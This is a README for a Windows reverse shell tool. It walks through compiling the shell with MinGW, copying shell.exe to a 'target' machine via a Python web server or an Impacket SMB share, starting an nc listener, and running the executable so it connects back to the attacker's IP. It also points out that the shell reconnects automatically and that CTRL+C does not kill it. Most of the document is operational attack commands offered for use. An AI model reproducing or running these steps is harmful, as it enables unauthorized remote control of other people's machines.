 # Windows Reverse Shell

This is a robust Windows reverse shell that maintains stability and reconnects if the connection drops.

## Prerequisites

To compile this reverse shell, you need `MinGW` installed. Install it based on your OS:

### **🔹 On Kali Linux:**
```sh
sudo apt update
sudo apt install mingw-w64 -y
```

### **🔹 On Windows:**
1. Download MinGW from [Mingw-w64](https://www.mingw-w64.org/downloads/)
2. Install it and add the `bin` folder to your system `PATH`

## Compilation

To compile the reverse shell on **Kali Linux**:
```sh
i686-w64-mingw32-gcc enhanced_shell.c -o shell.exe -lws2_32
```
This generates `shell.exe`, a Windows-compatible executable.

## Transfer to Target Machine

Use one of these methods to transfer `shell.exe` to the target:

### **🔹 Python HTTP Server (Recommended)**
On **Kali Linux**, start a web server:
```sh
python3 -m http.server 8080
```
On the **Windows target**, download the file using PowerShell:
```powershell
Invoke-WebRequest -Uri "http://YOUR_KALI_IP:8080/shell.exe" -OutFile "shell.exe"
```

### **🔹 SMB (For Internal Networks)**
On **Kali Linux**, use Impacket’s SMB server:
```sh
impacket-smbserver share $(pwd) -smb2support
```
On the **Windows target**, download the file:
```powershell
copy \\YOUR_KALI_IP\share\shell.exe C:\Users\Public\shell.exe
```

## Execution on Target

Start a listener on **Kali Linux**:
```sh
rlwrap nc -lvnp 1337
```
Execute the reverse shell on **Windows**:
```sh
shell.exe YOUR_KALI_IP 1337
```

You should now receive a reverse shell with proper command history and stability.

## Notes
- If the shell disconnects, it will **automatically attempt to reconnect**.
- CTRL+C will **not** terminate the shell on Windows.
- Use `rlwrap` with `nc` for an interactive shell with history.

Happy hacking! 🎯


